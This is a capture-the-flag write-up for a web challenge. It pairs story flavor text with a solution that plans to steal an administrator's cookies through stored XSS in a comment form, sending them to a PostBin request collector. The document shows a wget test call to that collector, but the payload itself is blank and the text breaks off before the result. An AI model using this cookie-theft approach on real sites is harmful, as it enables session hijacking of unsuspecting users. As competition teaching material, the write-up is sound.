

### Government Agriculture Network

`Tag: web`

Well it seems someone can't keep their work life and their home life separate. You vaguely recall on your home planet, posters put up everywhere that said "Loose Zips sink large commercial properties with a responsibility to the shareholders." You wonder if there is a similar concept here.

Using the credentials to access this so-called Agricultural network, you realize that SarahH was just hired as a vendor or contract worker and given access that was equivalent. You can only assume that Vendor/Contractor is the highest possible rank bestowed upon only the most revered and well regarded individuals of the land and expect information and access to flow like the Xenovian acid streams you used to bathe in as a child.

The portal picture displays that small very attractive individual whom you instantly form a bond with, despite not knowing. You must meet this entity! Converse and convince them you're meant to be! After a brief amount of time the picture shifts into a biped presumably ingesting this creature! HOW DARE THEY. You have to save them, you have to stop this from happening. Get more information about this Gubberment thing and stop this atrocity.

You need to get in closer to save them - you beat on the window, but you need access to the cauliflower's  host to rescue it.

## Solution

We are given the following link `https://govagriculture.web.ctfcompetition.com/`.
There is functionality that allows us to post a comment. Doing so produces the response `Your post was submitted for review. Administrator will take a look shortly`. This likely means that an Admin will be interacting with our comment and potentially opening links. We can use this to potentially steal some information such as cookies from the Admin.

[PostBin](https://postb.in/) is a site used to test API clients and Webhooks so we can see the response of any requests made to our url of choice.

PostBin produces some code when selecting to create a new bin, the following will send a 'hello world' message to the url.

`wget https://postb.in/1567657223398-1281839197035?hello=world`

Now we need the Admin to automatically click through our link, an attack known as XSS (Cross Site Scriping) and request cookies, the code looks something like this:

``

Submitting the above as a comment and refreshing PostBin reveals the following, with our flag clear to see:

